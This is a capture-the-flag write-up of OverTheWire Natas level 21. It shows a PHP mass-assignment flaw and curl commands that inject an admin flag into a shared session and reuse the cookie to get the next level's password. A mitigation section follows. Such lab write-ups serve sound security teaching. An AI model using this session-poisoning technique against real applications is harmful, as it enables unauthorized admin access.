

# Natas Level 21: Cross Site Session Poisoning

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 21 | natas21 | http://natas21.natas.labs.overthewire.org |

**Introduction:** Level 21 introduces something I hadn't seen in the previous challenges: two separate web applications sharing the same session storage. This colocation setup creates an interesting attack surface where vulnerabilities in one application can compromise another. It's a realistic scenario that mirrors how many production environments work, where multiple services share session backends for convenience.

---

## Hunting for Clues

When I loaded the main page, I immediately noticed something different.



The page displays a prominent note at the top: "Note: this website is colocated with http://natas21-experimenter.natas.labs.overthewire.org". Below that, it shows the familiar message: "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22." There's also a "View sourcecode" link in blue.

That note about colocation was the key hint. Two sites, same infrastructure. That usually means shared resources, and in web applications, the most commonly shared resource is session storage. I had a feeling this challenge would involve exploiting one site to gain access to the other.

I started by checking the source code of the main site:

```php
<?php

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
print_credentials();

?>
```

The main site's code was simple and clean. It starts a session, then checks if `$_SESSION["admin"]` equals `1`. If it does, you get the password. If not, you're stuck as a regular user. There was no obvious way to set the admin flag on this page itself, so I turned my attention to the experimenter site.

I visited http://natas21-experimenter.natas.labs.overthewire.org 


and checked its source code:

```php
<?php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>
```

This was where the vulnerability lived. Let me break down what I found:

### The Mass Assignment Vulnerability

The critical flaw was right here:

```php
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
        $_SESSION[$key] = $val;
    }
}
```

This code takes every single parameter from the request (both GET and POST) and blindly stores it into the session. The developer probably intended this for the CSS style experimenter functionality, allowing users to customize the appearance of the "Hello world!" example. But they made a fatal mistake: they didn't filter which parameters could be stored.

The code does define valid keys later:

```php
// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
```

But this validation is only used for displaying the form and setting defaults. It's completely ignored when actually storing values into the session. The comment says "only allow these keys" but the code does the exact opposite. It allows any keys.

### Understanding the Attack Vector

The attack strategy became clear:

1. The experimenter site has a mass assignment vulnerability that lets me inject arbitrary session variables
2. The main site and experimenter site are colocated, meaning they share the same session storage directory
3. Both sites use the same session cookie name (PHPSESSID)
4. If I can set `$_SESSION["admin"] = 1` on the experimenter site, that session data will be accessible to the main site
5. The main site will see the admin flag and grant me access

This is a classic example of cross site session poisoning. Two applications trust the same session backend, but one has weaker security controls than the other.

## Breaking In

Time to execute the attack. I needed to send a POST request to the experimenter site with the legitimate CSS parameters plus my malicious `admin=1` parameter.

I crafted my curl command carefully:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas21:BPh[REDACTED] -d "align=center&fontsize=100%25&bgcolor=yellow&admin=1&submit=Update" -i http://natas21-experimenter.natas.labs.overthewire.org/index.php
HTTP/1.1 200 OK
Date: Sun, 15 Feb 2026 07:08:33 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: PHPSESSID=ogomnrgp71htdmduii0827drl0; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 830
Content-Type: text/html; charset=UTF-8

<html>
<head><link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>

<p>Example:</p>
<div style='background-color: yellow; text-align: center; font-size: 100%;'>Hello world!</div>
<p>Change example values here:</p>
<form action="index.php" method="POST">align: <input name='align' value='center' /><br>fontsize: <input name='fontsize' value='100%' /><br>bgcolor: <input name='bgcolor' value='yellow' /><br><input type="submit" name="submit" value="Update" /></form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Perfect! The request succeeded and I got a session cookie in the response headers: `Set-Cookie: PHPSESSID=ogomnrgp71htdmduii0827drl0; path=/; HttpOnly`

Note that I included `fontsize=100%25` where `%25` is the URL encoded percent sign. This ensures the fontsize parameter is properly formatted. I also included the three legitimate CSS parameters (align, fontsize, bgcolor) along with my malicious `admin=1` parameter and the required `submit=Update` to trigger the storage logic.

At this point, my session on the experimenter site now contains:
- `align = "center"`
- `fontsize = "100%"`
- `bgcolor = "yellow"`
- `admin = "1"`
- `submit = "Update"`

Now for the moment of truth. I needed to take that session cookie and use it to access the main site. Because both sites share the same session storage, the main site will load my poisoned session data and see the admin flag.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas21:BPh[REDACTED] --cookie "PHPSESSID=ogomnrgp71htdmduii0827drl0" http://natas21.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas21", "pass": "BPh[REDACTED]" };</script></head>
<body>
<h1>natas21</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
</p>

You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: d8r[REDACTED]</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Voila! The response shows "You are an admin. The credentials for the next level are:" followed by the username and password for natas22. The attack worked perfectly.

### Why This Attack Succeeded

This vulnerability exists because of several interconnected security failures:

1. **Mass Assignment Without Filtering**: The experimenter site accepts and stores any POST parameter into the session without validating which keys are allowed. The `$validkeys` array exists but is never used for validation.

2. **Shared Session Storage**: Both applications use the same session storage backend and trust all data within it equally. There's no distinction between "data from the main site" and "data from the experimenter site."

3. **No Session Integrity Checks**: Neither application validates the integrity or origin of session data. The main site blindly trusts that if `$_SESSION["admin"]` exists and equals 1, the user must be an admin.

4. **Privilege Escalation Across Trust Boundaries**: The experimenter site, which should only handle CSS preferences, has the ability to set security critical session variables that affect the main site.

### Real World Impact

This type of vulnerability is surprisingly common in production environments. Here's why it matters:

**Microservices Architecture**: Many modern applications use microservices that share session storage (Redis, Memcached, database) for user convenience. If one service has a mass assignment vulnerability, it can compromise the entire ecosystem.

**Third Party Integrations**: Companies often integrate third party tools that share session data. A vulnerability in the third party application could allow attackers to poison sessions and gain unauthorized access to the main application.

**Developer Assumptions**: Developers often assume that session data is safe because "it comes from the server." This case proves that assumption wrong. Session data is only as trustworthy as the least secure application that can write to it.

### Proper Mitigation Strategies

Here's how this vulnerability should have been prevented:

1. **Whitelist Input Parameters**: Only accept and store parameters that are explicitly allowed:
   ```php
   if(array_key_exists("submit", $_REQUEST)) {
       $validkeys = array("align", "fontsize", "bgcolor");
       foreach($_REQUEST as $key => $val) {
           if(in_array($key, $validkeys)) {
               $_SESSION[$key] = $val;
           }
       }
   }
   ```

2. **Namespace Session Variables**: Separate session data by application:
   ```php
   // Experimenter site
   $_SESSION["experimenter"]["align"] = $val;
   
   // Main site
   if($_SESSION["main"]["admin"] == 1) { ... }
   ```

3. **Use Separate Session Stores**: If applications have different security requirements, they should use completely separate session storage backends.

4. **Session Data Signing**: Implement cryptographic signing for critical session variables:
   ```php
   function set_secure_session($key, $value) {
       $_SESSION[$key] = $value;
       $_SESSION[$key . "_signature"] = hash_hmac('sha256', $value, SECRET_KEY);
   }
   
   function verify_secure_session($key) {
       if(!isset($_SESSION[$key]) || !isset($_SESSION[$key . "_signature"])) {
           return false;
       }
       $expected = hash_hmac('sha256', $_SESSION[$key], SECRET_KEY);
       return hash_equals($expected, $_SESSION[$key . "_signature"]);
   }
   ```

5. **Principle of Least Privilege**: Session variables that control authorization (like `admin`) should never be settable through user input, even indirectly. They should only be set by authenticated server side logic:
   ```php
   // Only set admin flag after proper authentication
   if(authenticate_admin($username, $password)) {
       $_SESSION["admin"] = 1;
       $_SESSION["admin_verified"] = true;
   }
   
   // Check both existence and verification
   if($_SESSION["admin"] == 1 && $_SESSION["admin_verified"] === true) {
       // Grant access
   }
   ```

6. **Input Validation and Sanitization**: Even for "safe" parameters like CSS values, validate and sanitize input to prevent other attacks:
   ```php
   $allowed_aligns = ["left", "center", "right"];
   if(in_array($_POST["align"], $allowed_aligns)) {
       $_SESSION["align"] = $_POST["align"];
   }
   ```

7. **Session Isolation**: Use different session cookie names for different applications:
   ```php
   // Experimenter site
   session_name('EXPERIMENTER_SESSION');
   
   // Main site
   session_name('MAIN_SESSION');
   ```

8. **Regular Security Audits**: Code that handles session management should be carefully reviewed. Mass assignment vulnerabilities are easy to spot in code review but can have devastating consequences.

9. **Security Testing**: Include tests that attempt to inject unauthorized session variables to verify that filtering is working correctly.

10. **Defense in Depth**: Even if session data is compromised, implement additional authorization checks at the point of access. For example, verify admin status against a database, not just session variables.

The fundamental lesson here is that **trust boundaries matter**. When multiple applications share a resource like session storage, they create a shared trust boundary. Any vulnerability in one application can compromise all applications within that boundary. Design your architecture accordingly.

---

## The Loot

**Next Level Password:** d8r[REDACTED]

**Quick Recap:** Mass assignment vulnerability in a colocated experimenter site allowed injection of arbitrary session variables, which were then trusted by the main site to grant admin privileges without authentication.
